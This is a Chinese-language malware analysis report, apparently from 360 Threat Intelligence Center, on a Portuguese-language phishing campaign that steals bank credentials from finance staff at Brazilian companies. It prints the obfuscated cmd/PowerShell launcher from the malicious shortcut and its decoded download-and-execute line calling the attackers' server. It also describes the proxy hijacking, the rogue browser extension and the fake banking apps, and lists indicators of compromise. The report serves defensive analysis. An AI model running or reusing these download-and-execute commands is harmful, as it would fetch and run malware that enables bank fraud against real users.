 > 原文链接: https://www.anquanke.com//post/id/86947 


# 【技术分享】针对巴西商业公司财务的攻击事件分析


                                阅读量   
                                **96591**
                            
                        |
                        
                                                                                    



[![](https://p3.ssl.qhimg.com/t01f788c6b2ba9abc2f.png)](https://p3.ssl.qhimg.com/t01f788c6b2ba9abc2f.png)

**<br>**

**1. 概述**

9月14日到9月20（特别是9月19、20日两天），360威胁情报中心发现一批具有相似特征的钓鱼邮件，这些钓鱼邮件的语言均为葡萄牙语，投递目标为巴西的商业公司，使用的payload主要为**powershell**和**AutoIt**编写，这引起了我们分析人员的注意。经过分析，确定这是一起针对巴西境内商业公司财务人员的定向攻击，攻击目标为盗取银行账户。

**<br>**

**2. 目标**

a.    葡萄牙语

b.    巴西商业公司的人力资源、财务人员

c.    邮件内容通常如下：

[![](https://p1.ssl.qhimg.com/t01de562d2bb7b6ca2d.png)](https://p1.ssl.qhimg.com/t01de562d2bb7b6ca2d.png)

翻译：

```
亲爱的先生 确定你没有收到我的第一封电子邮件，我会按照约定寄给你我的简历。 所需的其他信息包含在附件课程的第二张表中。
```

[![](https://p2.ssl.qhimg.com/t01497c5ddeec4568d4.png)](https://p2.ssl.qhimg.com/t01497c5ddeec4568d4.png)

翻译：





```
此消息是指服务提供商的电子服务税务说明   -  NFS-e号51523245：
公司名称：PAYPAL DO   BRASIL SERVICOS DE PAGAMENTOS LTDA
电子信箱：notificacoes@paypal.com
CCM：3,932,128-2
CNPJ：10,878,448 / 0001-66
 
我们建议您在Million Note   System中注册一个安全短语，将出现在发送给您的所有消息中。
 
安全短语保证该消息由圣保罗市发送，并阻止收件人打开可能包含计算机病毒的邮件。
 
附上是发票nf = 51523245＆cod = MIJ6BFFP
……
```



**3. 分析**<br>

将邮件中的附件解压后，是一个html的快捷方式，该快捷方式的链接目标如下，双击快捷方式后，会以base64编码后的恶意代码作为参数启动powershell.exe执行，然后再启动iexplore.exe迷惑受害人。





```
C:windowssystem32cmd.exe /V /C   "set mq=hell ^-e^n^c &amp;&amp;set wx=pOwErs&amp;&amp;start !wx!!mq! bwB1AHUAOwBpAEUAeAAoAE4AZQBXAC0AbwBCAEoAZQBDAHQAIABOAEUAdAAuAFcAZQBiAEMAbABJAEUATgB0ACkALgBEAE8AdwBuAEwATwBBAEQAcwB0AFIASQBuAEcAKAAnAGgAdAB0AHAAOgAvAC8AOQAxADMANQAzADEANwA5ADIALgByAC4AcwAtAGMAZABuAC4AbgBlAHQALwB2ADIALwBnAGwALgBwAGgAcAA/AGEASABSADAAYwBEAG8AdgBMAHoAawB4AE0AegBVAHoATQBUAGMANQBNAGkANQB5AEwAbgBNAHQAWQAyAFIAdQBMAG0ANQBsAGQAQwA5ADIATQBuAHgAdwBWAEUAcABaACcAKQA="-%ProgramFiles%Internet
Exploreriexplore.exe
```

解码后

```
iEx(NeW-oBJeCt   NEt.WebClIENt).DOwnLOADstRInG('http://913531792.r.s-cdn.net/v2/gl.php?aHR0cDovLzkxMzUzMTc5Mi5yLnMtY2RuLm5ldC92MnxwVEpZ')
```

Powershell启动后，会从**hxxp://913531792[.]r.s-cdn[.]net/v2/gl.php?aHR0cDovLzkxMzUzMTc5Mi5yLnMtY2RuLm5ldC92MnxwVEpZ**下载一段代码，如下：

[![](https://p2.ssl.qhimg.com/t019a7a6de5a5f0aac9.png)](https://p2.ssl.qhimg.com/t019a7a6de5a5f0aac9.png)

可以看见这段代码的功能很简单，从**hxxp://913531792[.]r.s-cdn[.]net/v2/gd.php**下载并异或0x6A解密出一个名为Loader的dll，然后将其加载，接着通过Loader的Go方法(参数为"hxxp://913531792[.]r.s-cdn[.]net/v2","pTJY")开始下一步流程，最后生成一个vbs脚本用于启动Loader中指定的文件，并生成指向该vbs脚本的快捷方式，打开快捷方式启动vbs脚本。

由于Loader中下载的文件已经无法下载，而我们目前只知道该样本是一个downloader，更具体的恶意行为无法获得，也就不能确定攻击者的最终目的，通常的分析到这里就只能终止了。应付这种情况的一个常用方法是寻找同源样本，无论是历史样本还是更新的存活样本，都能够对样本的行为进行有效的还原，而且在寻找同源样本时获取的其他信息也能进一步对攻击者的画像进行勾勒。

通过360威胁情报中心(ti.360.net)搜索**913531792.r.s-cdn.net**,我们找到了更多的样本，以及该域名曾解析到的ip地址46.231.178.38、87.238.165.100、46.231.178.51、37.220.34.247等信息。

[![](https://p5.ssl.qhimg.com/t01b5e5856ec1a28d94.png)](https://p5.ssl.qhimg.com/t01b5e5856ec1a28d94.png)

进一步搜索这些IP地址的信息，发现另一个作为C&amp;C的域名hictip.r.worldssl.net及其关联样本：

[![](https://p2.ssl.qhimg.com/t0158e8bcf8153497e0.png)](https://p2.ssl.qhimg.com/t0158e8bcf8153497e0.png)

其中有一个MD5为**b5ef9c4c82b2bef4743b30481232ecc8**的AutoIt样本，对其的分析让我们得到了更多的结果。该样本会从**hxxps://github[.]com/fl20177/Flash/raw/Update/fl.exe**下载一个文件，然后访问**hxxp://94[.]229.78.156/cd/controller.php**。下载回来的fl.exe也是一个AutoIt编译成PE的可执行程序，其反编译后的代码正是前面提到过的powershell调用代码。 

[![](https://p1.ssl.qhimg.com/t016873707ce87f7223.png)](https://p1.ssl.qhimg.com/t016873707ce87f7223.png)

[![](https://p3.ssl.qhimg.com/t0198e61886d83c5154.png)](https://p3.ssl.qhimg.com/t0198e61886d83c5154.png)

那么现在我们得到了关于攻击者的一些新的信息，一个github地址和一个ip：

**hxxps://github[.]com/fl20177**

**94[.]229.78.156**

访问攻击者在Github上的账号[https://github.com/fl20177](https://github.com/fl20177)，可以发现这个账号是攻击者特地为这次攻击注册的，在9月5日注册。

[![](https://p4.ssl.qhimg.com/t01152413a64a9666cb.png)](https://p4.ssl.qhimg.com/t01152413a64a9666cb.png)

接着发现其github上的项目[https://github.com/fl20177/Flash](https://github.com/fl20177/Flash) 中还有一个新的样本：zer.exe。下载回来反编译后如下，注释部分是对代码功能的说明：

[![](https://p3.ssl.qhimg.com/t01549b0ce75aff83c4.png)](https://p3.ssl.qhimg.com/t01549b0ce75aff83c4.png)

该样本首先修改注册表项修改HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionInternet SettingsAutoConfigURL，这个注册表项对应的是IE的自动代理配置，可以指定一个脚本让IE对符合条件的域名使用指定的代理。这里的指定的代理配置脚本为hxxp://www[.]vijfheerenlandendigitaal.nl/ec/tfiles.txt, 内容如下，其指定了当访问桑坦德银行、巴西布拉德斯科银行、花旗银行、巴西联邦储蓄银行等网址时，使用代理服务器94.229.78.156，攻击者获取到受害者的访问流量后，可以返回伪造的钓鱼页面获取受害者的银行账号密码。

[![](https://p2.ssl.qhimg.com/t01eef4fa340ddd3f3b.png)](https://p2.ssl.qhimg.com/t01eef4fa340ddd3f3b.png)

[![](https://p2.ssl.qhimg.com/t01e1a6faf0f789e742.png)](https://p2.ssl.qhimg.com/t01e1a6faf0f789e742.png)

同时，样本还从hxxps://www[.]yourlifeinthesun.com/manifest.zip下载一个chrome的扩展插件，并替换掉chrome的快捷方式，为其加上“–load-extension=”的启动参数，让chrome启动时默认加载这个插件，插件主要作用是当受害人用chrome访问上面提到的银行网址时，禁用掉使其不可访问，从而诱导受害人使用IE浏览器进行访问。

[![](https://p1.ssl.qhimg.com/t01ffcd7fe76ed535bd.png)](https://p1.ssl.qhimg.com/t01ffcd7fe76ed535bd.png)

而且样本还会下载并替换掉Aplicativo Bradesco.exe(巴西布拉德斯科银行的PC客户端软件)、itauaplicativo.exe（巴西伊塔乌投资银行的PC客户端软件），替换后的软件点击后只会弹出窗口提示：“系统不可用，请通过浏览器登录您的帐号。”，这也是一种诱导受害人通过浏览器登录银行账号的手段。

[![](https://p0.ssl.qhimg.com/t014b3da135d542fc3f.png)](https://p0.ssl.qhimg.com/t014b3da135d542fc3f.png)

综上所述，360威胁情报中心认为此次事件其攻击目标为巴西的商业公司财务人员，目的为盗取目标银行账号密码，是一起限定范围内的定向攻击事件，而不是针对特定行业人员以窃取资料为目的的APT事件。

**<br>**

**4. IOC**

**Domain**

913531792.r.s-cdn.net

hictip.r.worldssl.net

www.yourlifeinthesun.com

**IP**

94.229.78.156

**URL**

http://913531792.r.s-cdn.net/v2

http://913531792.r.s-cdn.net/v2/gd.php

http://913531792.r.s-cdn.net/v2/gl.php

https://hictip.r.worldssl.net/v2

https://hictip.r.worldssl.net/v2/gl.php

https://hictip.r.worldssl.net/v2/gd.php

http://www.vijfheerenlandendigitaal.nl/ec/tfiles.txt

http://94.229.78.156/cc/controller.php

http://94.229.78.156/cd/controller.php

https://www.yourlifeinthesun.com/itauaplicativo.exe

https://www.yourlifeinthesun.com/DevWarningPatch.bat

https://www.yourlifeinthesun.com/manifest.zip

https://www.yourlifeinthesun.com/AplicativoBradesco.exe

https://github.com/fl20177/Flash/raw/Update/fl.exe

**MD5**

5b9e5e272d4e56b84f83c916c7eefb8f

4f48f618fc3247d1c013562a2e34dc4e

5dc7429d915289b58880721a7d1dc35c

b6153ed6c5ecac7fc38c7316057f5dd5

7b7f18f8ec641ce0930a75071cae0a8f
